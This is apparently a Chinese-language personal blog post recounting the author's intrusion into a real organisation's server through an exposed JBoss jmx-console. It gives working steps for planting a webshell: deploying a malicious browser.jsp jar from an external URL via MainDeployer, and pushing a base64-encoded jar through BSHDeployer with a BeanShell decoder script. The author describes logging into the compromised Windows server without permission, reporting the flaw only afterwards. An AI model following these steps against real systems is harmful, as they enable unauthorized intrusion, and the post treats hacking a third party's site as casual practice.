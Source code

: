 ```yaml
---
layout: post 
title: "JBoss漏洞利用"
description: ""
category: security
tags: []
---
```


无意中访问j馆网站时发现这样的页面：![界面](/assets/images/jb1.jpg "界面")

很明显，网站配置存在问题，google一下，很容易就可以找到这个关于JBoss漏洞利用的[paper](securityxploded.com/JBoss%20Whitepaper.pdf)，以及一些衍生的[中文翻译](www.nxadmin.com/web/847.html)。好了，下面就照着paper实践就行了。

1.通过jmx-console部署恶意jar包
[MainDeployer](/assets/images/jb2.jpg)

找到MainDeployer中的deploy方法,在URL参数中填入jar包的位置。

[deploy](/assets/images/jb3.jpg)

>jar包制作：从[这里](www.vonloesch.de)下载`browser.jsp`，我是在linux命令行下进行打包：
>`$jar cf browser.jar browser.jsp`
>好了，把生成的jar包丢到某个外网可以直接访问的地方就可以了。

点击invoke，提示`operation...success`之类的就ok了。

[pwnwd](/assets/images/jb4.jpg)

ok,拿下了。

2.通过BSHDeployer部署BeanShell脚本

这是上面paper中给出的第二种方法，因为在一些配置中，防火墙不允许JBoss向外部发出连接请求。而这种方法就是直接将可以直接运行的脚本放到被攻击机器上。

2.1 编写攻击的jsp（我随便找了个简单的helloworld做测试）
>$ cat h123.jsp
<pre><code>
<%@ page language="java" contentType="text/html; charset=ISO-8859-1"
pageEncoding="ISO-8859-1"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html;
charset=ISO-8859-1">
<title>Hello from JSP</title>
</head>
<body>

<% out.print("<h1>My Addition
		Application</h1>"); %>
<hr>
Welcome to the addition
Application<br>
Current Time is : <%=new
java.util.Date()%>
</body>
</html>
</code></pre>

2.2 生成jar包
>$ jar cf h123.jar h123.jsp

2.3 利用base64对jar包进行加密
>$ base64 -w 0 h123.jar >>h123.jar.base64

2.4 编写解密脚本

<pre><code>
import java.io.FileOutputStream; import sun.misc.BASE64Decoder; String
val="2.3中加密后的jar文件内容"; BASE64Decoder decoder = new BASE64Decoder(); byte[]
byteval=decoder.decodeBuffer(val); FileOutputStream fs = new
FileOutputStream("D:\\h123.war"); fs,write(byteval); fs.close();
</code></pre>

2.5 找到BSHDeployer的createScriptDeployment

[BSHDeployer](/assets/images/jb5.png)

[createScriptDeployment](/assets/images/jb6.png)
	
	在p1处填入2.4中脚本的内容，p2处填入访问的节点如h123，点击invoke，提示`operation...success`之类就ok了。

2.6 看看效果

[效果](/assets/images/jb7.jpg)

ps:
登入这台windows
server2003后，我发现这台机器已经完全沦为了挖矿的机器，尤其是到了晚上:)

感谢j馆提供机器，充当了我第一次入侵的小白鼠，作为回报，已经将漏洞上报某云:)

